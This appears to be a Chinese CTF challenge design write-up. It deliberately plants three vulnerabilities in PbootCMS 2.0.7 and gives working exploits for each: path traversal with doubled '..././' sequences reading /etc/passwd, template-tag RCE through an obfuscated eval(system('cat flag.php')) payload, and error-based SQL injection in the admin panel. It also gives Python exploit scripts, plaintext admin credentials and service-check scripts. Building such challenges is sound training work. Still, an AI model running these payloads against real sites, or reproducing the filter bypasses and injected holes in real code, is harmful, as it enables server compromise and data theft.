# BuildIt

*注：本项目基于开源项目 `pbootcms`  2.0.7 进行漏洞设计，对过往版本进行了学习参考*

## （一）漏洞设计

### 1.漏洞一 —— 前台任意文件读取漏洞

漏洞设计在 `core\view\view.php` 中的 `parser` 函数



过滤了 `../` 和`\` ， **双写绕过** 问题。



当模板文件不在缓存中的时候，会读取 `$tpl_file` 中的内容，然后写入缓存文件中并且包含。

也就是说，当 `parser` 函数的参数可以被控制的时候，就会造成一个任意文件包含。因此，我们**要找一个可控参数的 `parser` 调用。**

在 `apps\home\controller\SearchController.php` 中存在 `parser` ,并且`searchtpl` 可控。





测试:

`?search=&searchtpl=..././..././..././robots.txt`



两种绕过写法:

`?search=&searchtpl=..././..././..././..././..././..././..././..././etc/passwd`

`?search=&searchtpl=....//....//....//....//....//....//....//....//etc/passwd`



发现可以在此进行漏洞利用。

### 2.漏洞二 —— 前台 RCE

在留言板处可以 **通过控制留言内容实现代码执行 **。 

修改 `apps\api\controller\CmsController.php` 中的「addmsg 函数」：



第一个过滤，「str_replace 函数」将变量 `field_data` 中的 「pboot:if 标签」 过滤，可以用 **双写绕过** 解决。

在 `apps\home\controller\ParserController.php` 中「parserIfLabel 函数」的功能为「解析 if 条件标签」。提交的内容起初为变量 `matches[0]` ，后面将「pboot:if 标签」中的 payload 值赋给 `matches[1]` ，过滤后提取出左括号前的字符串。

```php
public function parserIfLabel($content)
{
    $pattern = '/\{pboot:if\(([^}^\$]+)\)\}([\s\S]*?)\{\/pboot:if\}/';
    $pattern2 = '/pboot:([0-9])+if/';
    if (preg_match_all($pattern, $content, $matches)) {
        $count = count($matches[0]);
        for ($i = 0; $i < $count; $i ++) {
            $flag = '';
            $out_html = '';
            $danger = false;
                
            $white_fun = array(
                'date',
                'in_array',
                'explode',
                'implode'
            );
                
            // 还原可能包含的保留内容，避免判断失效
            $matches[1][$i] = $this->restorePreLabel($matches[1][$i]);
                
            // 解码条件字符串
            $matches[1][$i] = decode_string($matches[1][$i]);
                
            // 带有函数的条件语句进行安全校验
            if (preg_match_all('/([\w]+)([\\\s]+)?\(/i', $matches[1][$i], $matches2)) {
                foreach ($matches2[1] as $value) {
                    if ((function_exists($value) || preg_match('/^eval$/i', $value)) && ! in_array($value, $white_fun)) {
                        $danger = true;
                        break;
                    }
                }
            }
                
               
            // 如果有危险函数，则不解析该IF
            if ($danger) {
                continue;
            }
                
            eval('if(' . $matches[1][$i] . '){$flag="if";}else{$flag="else";}');
            if (preg_match('/([\s\S]*)?\{else\}([\s\S]*)?/', $matches[2][$i], $matches2)) { // 判断是否存在else
                switch ($flag) {
                    case 'if': // 条件为真
                        if (isset($matches2[1])) {
                            $out_html = $matches2[1];
                        }
                        break;
                    case 'else': // 条件为假
                        if (isset($matches2[2])) {
                            $out_html = $matches2[2];
                        }
                        break;
                }
            } elseif ($flag == 'if') {
                $out_html = $matches[2][$i];
            }
                
            // 无限极嵌套解析
            if (preg_match($pattern2, $out_html, $matches3)) {
                $out_html = str_replace('pboot:' . $matches3[1] . 'if', 'pboot:if', $out_html);
                $out_html = str_replace('{' . $matches3[1] . 'else}', '{else}', $out_html);
                $out_html = $this->parserIfLabel($out_html);
            }
                
            // 执行替换
            $content = str_replace($matches[0][$i], $out_html, $content);
        }
    }
    return $content;
}
```

使用「function_exists 函数」 判断是否定义过函数，为避免 `$danger` 返回「false」，使其可以任意执行代码，引入「语言结构器 eval」 与「白名单 white_fun」进行 **安全校验** 。


**`$content` 内容可控** ，在函数名和括号间可以 **插入控制字符 `[\x00-\x20]`**，PHP 引擎会忽略这些控制字符，那么就可以绕过这个正则。

```php
preg_match_all('/([\w]+)([\\\s]+)?\(/i', $matches[1][$i], $matches2)
```

这里在 `core\basic\Model.php` ，加入新一层过滤，如果破解，同样可以 **双写绕过** 。



测试双写绕过的可行性：





> 函数 phpinfo() 可以显示出 php 所有相关信息。是排查配置 php 是否出错的主要方式之一。
>
> 函数 implied() 可以将数组元素拼接成字符串。

```shell
{pbootpbootpboot:if:if:if(implode('', ['c','a','l','l','_','u','s','e','r','_','f','u','n','c'])(implode('',['p','h','p','i','n','f','o'])))}!!!{/pbootpbootpboot:if:if:if}
```

执行 `phpinfo()` 进行测试也成功：





因此利用这一漏洞设计 Flag，编写  POC 如下：

[ascii码对照表](https://wenku.baidu.com/view/de4c332c453610661ed9f474.html) 和 [进制转换器](https://jisuan5.com/hexadecimal/?hex=10)

```shell
{pbootpbootpboot:if:if:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr (0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr (0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr (0x3b))))}!!!{/pbootpbootpboot:if:if:if}
```

**提供给解题人的线索为： pbootpbootpboot:if:if:if**

### 3.漏洞三 —— 后台 sql 注入



由于对  `$content`  过滤不严格导致**可在后台新增文章处进行 `SQL` 注入**：

漏洞在 `\apps\admin\controller\content\ContentController.php` 中的 79-170 行（只截取重要部分）



其中：

```php
$description = mb_substr(strip_tags($_POST['content']), 0, 150);
```

仅对传入的  `content`  参数使用了 `strip_tags` 和 `mb_substr` 过滤，因此 `$content` 存在 `SQL` 注入。

**报错注入**可以拿到数据库中的flag：

> 如果使用 select (extractvalue(1,(database()))); 在 1 中查询不到 database() 的结果，但是因为没有语法错误，所以不会报错。
>
> 用 `concat` 函数拼接一个错误的 Xpath 让数据库报错得到包含查询值的字符串。

 **因此设计 POC 如下**：

```shell
testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from pbootcms.ay_aFlag)))) or ' 
```

因为漏洞设计在后台，所以要过登录。对数据库（包含用户名密码）的设计如下， `password` 是由原始密码经过**两次 `MD5` 加密**得到的，[**脚本为—后面放链接**]



考虑到目前情况下无法通过爆破或者注入方法拿到用户名和密码，即便拿到了也无法解密出原密码，所以：

提供给解题人的**题目线索为：检查一下 MTJAYWE0Li8oOUViOUFEKTApNw== 看看能发现什么吧~**

*线索破解出来得到用户名为 `check` , 将 `check` 用户原密码 `12@aa4./(9Eb9AD)0)7` 进行 base64 加密得到 `MTJAYWE0Li8oOUViOUFEKTApNw==`*

## （二）Exp 设计— Build 阶段的 exp

### 1.漏洞一

根据漏洞一设计的漏洞，进行 Exp 设计，利用「request 库」直接发送数据即可。

```python
import requests
def exp(url):
    r=requests.get(url)
    flag=r.text
    return flag
if __name__ == '__main__':
    print(exp("http://127.0.0.1/?search=&searchtpl=..././..././..././..././..././..././..././..././flag"))
```

### 2.漏洞二

根据漏洞二的设计，进行「Exp」设计，同样利用「request 库」，但是需要分两步执行。

#### 2.1 发送 RCE Poc

```python
def postExp(url):
    post_data = {
        'contacts': '666',
        'mobile': '1008611',
        'content': '{pbootpbootpboot:if:if:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr ('
                   '0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr '
                   '(0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr ('
                   '0x3b))))}!!!{/pbootpbootpboot:if:if:if} '
    }
    response = requests.post(url, data=post_data)
    if response.status_code == 200:
        print("Exp 插入成功")
        return True
    else:
        print("Exp 插入失败，请检查网站状态，response code=" + str(response.status_code))
        return False

```

#### 2.2 获取 Flag

```python
def getFlag():
    r = requests.get("http://127.0.0.1/?gbook/")
    flagg = re.findall(r'''flag="(.+?)";''', r.text)
    if (len(flagg)!=0):
        print(flagg[0])
    else:
        print("Flag获取失败")
```

#### 2.3 主函数

```python
import requests
import re
if __name__ == '__main__':
    url = "http://127.0.0.1/?message/"
    if postExp(url):
        getFlag()
```

### 3.漏洞三

根据漏洞三的设计，进行 Exp 设计，分为以下几步：

#### 3.1 getformCheck() 函数

获取 ssrf token 以及 session id，后续登录需要校验

```python
def getformCheck():
    r = requests.get("http://127.0.0.1/admin.php")
    r.encoding = 'utf-8'
    soup = BeautifulSoup(r.text, "html.parser")
    formcheck = soup.find("input", {"name": "formcheck"})['value']
    PbootSystem = r.cookies['PbootSystem']
    return formcheck, PbootSystem
```

#### 3.2 getck() 函数

利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

```python
def getck():
    check = getformCheck()
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                      'Chrome/71.0.3578.98 Safari/537.36',
        'Cookie': 'PbootSystem=' + check[1]
    }
    url = 'http://127.0.0.1/admin.php?p=/Index/login'
    data = {
        'username': 'check',
        'password': '12@aa4./(9Eb9AD)0)7',
        'formcheck': check[0]
    }
    r = requests.post(url, data, headers=headers)
    ck = r.cookies['PbootSystem']
    return 'PbootSystem='+ck
```

#### 3.3 senExp() 函数

发送 Poc 到指定位置，并返回数据库报错内容

```python
def senExp():
    ck = getck()
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                      'Chrome/71.0.3578.98 Safari/537.36',
        'Cookie': ck
    }
    r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
    r.encoding = 'utf-8'
    soup = BeautifulSoup(r.text, "html.parser")
    formcheck = soup.find("input", {"name": "formcheck"})['value']
    url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
    data = {
            "formcheck": formcheck,
            "scode": "3",
            "title": "6666",
            "tags": "",
            "author": "check",
            "source": "%E6%9C%AC%E7%AB%99",
            "ico": "",
            "upload": "",
            "pics": "",
            "upload": "",
            "subscode": "",
            "titlecolor": "%23333333",
            "subtitle": "",
            "filename": "",
            "outlink": "",
            "date": "2022-07-15+11%3A33%3A26",
            "enclosure": "",
            "upload": "",
            "keywords": "",
            "description": "",
            "status": "1",
            "content": '''testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from 
            pbootcms.ay_aFlag)))) or ' '''
    }
    r = requests.post(url, data, headers=headers)
    return r.text
```

#### 3.4 getflag() 函数

获取 flag

```python
def getflag():
    flagg=senExp()
    flagg = re.findall(r'''~flag{(.+?)}~''', flagg)
    return "flag{"+flagg[0]+"}"
```

#### 3.5 主函数

```python
import re
import requests
from bs4 import BeautifulSoup
if __name__ == '__main__':
    print(getflag())
```

## （三）Check 设计

Check 的主要原则也是模拟用户正常使用漏洞点的地方。

### 1.漏洞一

> 对漏洞一的 `check` 主要模拟用户搜索过程。
>

- 首先在网站中正常搜索发现:

  如果能在系统内搜索到关键词，则跳转相应的页面并高亮：

  

  如果搜索不到，则显示如下界面：

  

- 所以 `check`  的思路为：基于系统中已经预先置入的一些数据，进行搜索关键词的设置。

  1. 设定两个系统中可以搜索到的关键词和一个不能搜索到的关键词：

     ```python
         keywords = {
             "PHP":1,
             "服务":1,
             "lalalaallalala":0   
         }
         ##其中 keywords 为 check 检索时搜索引擎的搜索关键字列表
         ## key 是检索的关键字 value 的含义是 如果该关键字可以被检索则赋值 1 ，如果检索不到则赋值为 0。举例来说，"PHP" 和"服务"是可以被检索到的，"lalalaallalala"是检索不到的。
     ```

     

     

     

  2. 针对关键词进行逐一检查：

     ```python
     def GetSearchState(keyword,flag):
         r = requests.get("http://127.0.0.1/?keyword=" + keyword)
         r.encoding = 'utf-8'
         soup = BeautifulSoup(r.text, "html.parser")
         if(flag==0):
             ##传入的关键字本身就是找不到的，则一定会显示“未搜索到任何数据”，所以在前端找对应的标签，找的则返回 True
             item = soup.find("div", "text-center my-5 text-secondary")
             if(item==None):
                 return False
             if(item.text=="未搜索到任何数据！"):
                 return True
             else:
                 return False
         elif(flag==1):
             ##传入的关键词是能找到的，则一定会实现页面跳转，并且测试的两个用例对应的跳转页面都有"col-12 col-sm-6 col-lg-3"标签。
             item = soup.find("div", "col-12 col-sm-6 col-lg-3")
             if(item!=None):
                 return True
             else:
                 return False
     ```

  3. 主函数如下：

      ```python
      import requests
      from bs4 import BeautifulSoup
      if __name__ == '__main__':
          keywords = {
              "PHP":1,
              "服务":1,
              "lalalaallalala":0 
          }
          
          for i in keywords:
              if(GetSearchState(i,keywords[i])==False):
                  flag=0
                  break
              else:
                  flag=1
          if(flag==0):
              print("Check Down")
          else:
              print("Check Up")
      ```



### 2.漏洞二

> 对漏洞二的检查主要是针对用户留言模块进行模拟提交留言，并检查留言是否成功。

**为了确保每次 Check 的唯一性，对留言内容进行随机留言。每次模拟留言完成后，会获取留言列表，检查是否出现模拟留言的随机内容**。

随机留言生成函数如下，利用「keyyyy-」和「-keyyyy」封装字符串。

```python
def makeKey():
    random.seed(time)
    alp = 'abcdefghijklmnopqrstuvwxyz'
    key = random.sample(alp,10)
    key="keyyyy-"+"".join(key)+"-keyyyy"
    return key
```

发送留言函数如下

```python
def postCheck(url,makeKey):
    post_data = {
        'contacts': 'checkkkkkkkk',
        'mobile': '1101008611123',
        'content': makeKey
    }
    response = requests.post(url, data=post_data)
    if response.status_code == 200:
        return True
    else:
        return False
```

获取留言函数如下，根据固定的「keyyyy-」和「-keyyyy」定位刚刚发送的留言。

```python
def getKey():
    r = requests.get("http://127.0.0.1/?gbook/")
    if r.status_code==200:
        flagg = re.findall(r'''keyyyy-(.+?)-keyyyy''', r.text)
        return "keyyyy-"+flagg[0]+"-keyyyy"
    else:
        return "err"
```

主函数如下

```python
if __name__ == '__main__':
    url = "http://127.0.0.1/?message/"
    mkey=makeKey()
    if postCheck(url,mkey):
        if mkey==getKey():
            print("Check Up")
        else:
            print("Check Down")
    else:
        print("Check Down")
```

check2.py 的执行情况如下





### 3.漏洞三

> 对于漏洞三的 check 需要模拟后台登录，然后再新增文章初进行文章的新增操作，对于文章内容去随机内容，并检查是否新增成功。

该 check 程序主要分为以下几个步骤

1. 获取 ssrf token 以及 session id，后续登录需要校验

   ```python
   def getformCheck():
       r = requests.get("http://127.0.0.1/admin.php")
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       PbootSystem = r.cookies['PbootSystem']
       return formcheck, PbootSystem
   ```

2. 利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

   ```python
   def getck():
       check = getformCheck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': 'PbootSystem=' + check[1]
       }
       url = 'http://127.0.0.1/admin.php?p=/Index/login'
       data = {
           'username': 'check',
           'password': '12@aa4./(9Eb9AD)0)7',
           'formcheck': check[0]
       }
       r = requests.post(url, data, headers=headers)
       ck = r.cookies['PbootSystem']
       return 'PbootSystem='+ck
   ```

3. 随机内容生成函数（和漏洞二一样的思路）

   ```python
   def makeKey():
       random.seed(time)
       alp = 'abcdefghijklmnopqrstuvwxyz'
       key = random.sample(alp,10)
       key="keyyyy-"+"".join(key)+"-keyyyy"
       return key
   ```

3. 模拟发送新增文章请求，内容为随机内容，方便对新增功能校验

   ```python
   def senExp(makeKey):
       ck = getck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': ck
       }
       r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
       data = {
               "formcheck": formcheck,
               "scode": "3",
               "title": makeKey,
               "tags": "",
               "author": "check",
               "source": "%E6%9C%AC%E7%AB%99",
               "ico": "",
               "upload": "",
               "pics": "",
               "upload": "",
               "subscode": "",
               "titlecolor": "%23333333",
               "subtitle": "",
               "filename": "",
               "outlink": "",
               "date": "2022-07-23+11%3A33%3A26",
               "enclosure": "",
               "upload": "",
               "keywords": "",
               "description": "",
               "status": "1",
               "content": makeKey
       }
   ```

4. 对新增完的文章进行校验，看是否正确新增

   ```python
   def getKey():
       r = requests.get("http://127.0.0.1/?company/")
       if r.status_code==200:
           flagg = re.findall(r'''keyyyy-(.+?)-keyyyy''', r.text)
           return "keyyyy-"+flagg[0]+"-keyyyy"
       else:
           return "err"
   ```

5. 主函数

   ```python
   if __name__ == '__main__':
       mkey=makeKey()
       if senExp(mkey)==200:
           if mkey==getKey():
               print("Check Up")
           else:
               print("Check Down")
       else:
           print("Check Down")
   ```


